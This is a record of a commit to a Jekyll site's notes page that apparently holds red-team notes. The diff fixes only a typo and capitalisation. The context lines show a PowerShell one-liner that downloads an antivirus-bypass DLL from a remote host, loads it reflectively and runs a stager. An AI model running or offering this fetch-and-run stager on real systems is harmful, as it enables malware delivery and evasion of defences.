

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 14380 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -666,10 +666,10 @@
 </p>
 
 
-we could also download the DLL from a remote location as follow below:
+We could also download the DLL from a remote location as follow below:
 
 
-```poershell
+```powershell
 PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/monk-Avbypass.dll)
 PS > [System.Reflection.Assembly]::Load($dll)
 PS > [MonkStager.MonkStager]::Execute()
````
